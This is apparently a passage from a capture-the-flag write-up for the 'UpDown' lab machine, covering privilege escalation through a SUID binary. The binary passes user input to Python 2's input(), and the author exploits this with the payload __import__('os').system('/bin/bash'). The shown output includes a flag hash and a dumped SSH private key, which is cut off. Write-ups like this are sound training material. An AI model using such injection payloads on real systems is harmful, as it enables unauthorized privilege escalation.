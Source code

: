 
### Step 3
With a shell, the privilege escalation vector is quite obvious, we have **SUID** bit as `developer` on `siteisup` binary:
```bash
www-data@updown:/home/developer/dev$ ls -al
total 32
drwxr-x--- 2 developer www-data   4096 Jun 22 15:45 .
drwxr-xr-x 6 developer developer  4096 Aug 30 11:24 ..
-rwsr-x--- 1 developer www-data  16928 Jun 22 15:45 siteisup
-rwxr-x--- 1 developer www-data    154 Jun 22 15:45 siteisup_test.py

www-data@updown:/home/developer/dev$ file siteisup
siteisup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b5bbc1de286529f5291b48db8202eefbafc92c1f, for GNU/Linux 3.2.0, not stripped
```

We can assume that the code from `siteisup` is the same as the python script:
```bash
www-data@updown:/home/developer/dev$ cat siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```

`import()` is generally seen as a dangerous function, together with `eval()` and `exec()`, we can easily break out from the program and get a shell as `developer`:
```bash
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('/bin/bash')
developer@updown:/home/developer/dev$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)

developer@updown:/home/developer$ cat user.txt
107ab9b44d8853f426ebe841cdae9cbf

developer@updown:/home/developer/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
ozOB5DeX8rb2bkii6S3Q1tM1VUDoW7cCRbnBMglm2FXEJU9lEv9Py2D4BavFvoUqtT8aCo
srrKvTpAQkPrvfioShtIpo95Gfyx6Bj2MKJ6QuhiJK+O2zYm0z2ujjCXuM3V4Jb0I1Ud+q
a+QtxTsNQVpcIuct06xTfVXeEtPThaLI5KkXElx+TgwR0633jwRpfx1eVgLCxxYk5CapHu
u0nhUpICU1FXr6tV2uE1LIb5TJrCIx479Elbc1MPrGCksQVV8EesI7kk5A2SrnNMxLe2ck
IsQHQHxIcivCCIzB4R9FbOKdSKyZTHeZzjPwnU+FAAAFiHnDXHF5w1xxAAAAB3NzaC1yc2
EAAAGBAJrweNE1jPHrtJ+hTs4sUwNaUN/UqcGMq2Aoyqw7afIORNORBHCcP0taovTxaDb8
5Le1Mt/vusQ3feboAHbbkS+6swNN8UjZKp7dh4IygDzq+nLSLzA6YfCXgRdhfUsuF67Xwj
++vlqc5sU+7rbxg9DdQGN/hBkaTm+6ufV9KXD0ZyFJ8btrDfryF43xr6ogGKMzgeQ3l/K2
9m5Ioukt0NbTNVVA6Fu3AkW5wTIJZthVxCVPZRL/T8tg+AWrxb6FKrU/GgqLK6yr06QEJD
6734qEobSKaPeRn8segY9jCiekLoYiSvjts2JtM9ro4wl7jN1eCW9CNVHfqmvkLcU7DUFa
XCLnLdOsU31V3hLT04WiyOSpFxJcfk4MEdOt948EaX8dXlYCwscWJOQmqR7rtJ4VKSAlNR
V6+rVdrhNSyG+UyawiMeO/RJW3NTD6xgpLEFVfBHrCO5JOQNkq5zTMS3tnJCLEB0B8SHIr
wgiMweEfRWzinUismUx3mc4z8J1PhQAAAAMBAAEAAAGAMhM4KP1ysRlpxhG/Q3kl1zaQXt
b/ilNpa+mjHykQo6+i5PHAipilCDih5CJFeUggr5L7f06egR4iLcebps5tzQw9IPtG2TF+
ydt1GUozEf0rtoJhx+eGkdiVWzYh5XNfKh4HZMzD/sso9mTRiATkglOPpNiom+hZo1ipE0
```